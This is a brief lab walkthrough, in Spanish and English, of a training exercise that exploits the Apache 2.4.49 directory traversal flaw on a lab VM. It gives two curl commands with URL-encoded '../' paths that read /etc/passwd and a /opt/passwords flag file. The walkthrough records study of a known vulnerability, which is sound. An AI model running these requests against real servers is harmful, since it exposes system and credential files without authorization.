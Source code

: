 # Walk: Codificacion de caracteres filtrados para explotar Directory Traversal

## Fecha: 18/01/2025
## Host: Kali
## IP: 192.168.{subnet}.16

---

## Objetivo
In this section, we used URL encoding to exploit the directory traversal vulnerability 
in Apache 2.4.49 on VM #1. **Use Burp or curl **to display the contents of the **/opt/passwords** 
file via directory traversal in the vulnerable Apache web server. 
**Remember to use URL encoding for the directory traversal attack.** Find the flag in the output of the file.

---
## Herramientas
1. curl
2. tool - 2
---
## Procedimiento y comandos
1. Paso 1: Verificamos la vulnerabilidad:
	- **curl -i http://192.168.192.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd**
	- Resultado positivo
2. Paso 2: Buscamos el flag:
	- **curl -i http://192.168.192.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/opt/passwords**
	- Obtenemos el flag.
---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** burp
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

